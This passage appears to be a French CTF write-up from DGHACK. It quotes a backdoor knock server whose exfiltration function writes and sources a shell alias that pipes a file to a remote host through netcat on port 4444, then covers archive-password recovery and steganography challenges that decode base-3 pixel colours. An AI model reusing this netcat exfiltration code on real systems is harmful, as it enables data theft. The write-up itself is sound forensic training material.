 ```python
            with open("/root/.aliases", "w+") as f:
                f.write('alias exfiltration="nc -vn ' + self.revsh_host + ' 4444 < /vsystem"')
            sp = subprocess.Popen(["/bin/bash", "-c", "source /root/.aliases"])
            sp.communicate()
        except Exception as e:
            print(e)
            return False

if __name__ == '__main__':
    ksrv = backdoor_knock_server('174.10.50.1', [10000, 10001, 10002], '174.10.50.30', 8080)
    ksrv.exfiltration()
    ksrv.start()
    ksrv.info()
    ksrv.waitInterrupt()
```

On voit donc clairement dans la fonction exfiltration que l’attaquant envoie le fichier vsystem dans un netcat d’exfiltration. On cherche donc le fichier et on tombe dessus, sauf qu’il est dans une archive protégée par mot de passe

On retrouve dans la corbeille de root le fichier setup.php du site web, une ligne mentionne le mdp admin ainsi qu’il est utilisé pour protéger l’archive

On débloque alors l’archive et on tombe sur ce fichier png: DGHACK{tres_secret_defense}.png

Pas de flag en première vu mais vu que c’est une image on pense à de la stégano. On passe l’image sur StegSolve et on découvre le flag dans les couches R, G et B.

# STEGANO - Ne jamais renoncer

L’image comporte une suite de pixels étrange qui fait le tour de l’image, avec le logo dghack au centre. Avec binwalk on trouve une image cachée mais rien de particulier à en tirer après l’avoir aussi passé sur StegSolve.

En regardant la valeur des pixels, on se rend compte que il y a 3 valeurs possibles pour chaque couleurs : 0, 192 et 255. Les couleurs sont donc en base3

Voici la conversion en base10 des couleurs codées en base3. On concatène la valeur en base3 du rouge, du vert puis du bleu:

```python
200 (rouge) = 18 
100 (rouge foncé) = 9
001 (bleu foncé) = 1
101 (violet foncé) = 10
202 (rose) = 20
022 (vert d'eau) = 8
222 (blanc) = 26
011 (bleu-vert foncé) = 4
010 (vert-foncé) = 3
220 (jaune) = 24
110 (jaune-foncé) = 12
211 (rose-saumon) = 22
112 (bleu-clair) = 14
122 (bleu-ciel) = 17
002 (bleu) = 2
121 (vert-clair) = 16
020 (vert) = 6
221 (jaune-clair) = 25
212 (lavande) = 23
```
